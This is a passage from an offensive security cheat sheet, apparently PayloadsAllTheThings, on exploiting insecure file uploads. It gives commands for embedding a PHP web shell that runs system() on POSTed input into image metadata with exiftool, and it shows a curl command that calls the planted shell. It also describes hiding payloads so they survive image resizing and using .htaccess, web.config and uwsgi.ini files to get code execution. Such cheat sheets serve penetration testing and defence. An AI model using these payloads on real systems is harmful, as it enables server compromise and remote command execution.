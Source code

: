 Also you upload:

* HTML/SVG files to trigger an XSS
* EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

* Picture Metadata, hide the payload inside a comment tag in the metadata.
* Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    * [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    * [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    * [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php

### Picture Metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :

* PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
* ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
* uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.

Configuration files examples

* [Apache: .htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
* [IIS: web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
* [Python: \_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
* [WSGI: uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

#### Apache: .htaccess
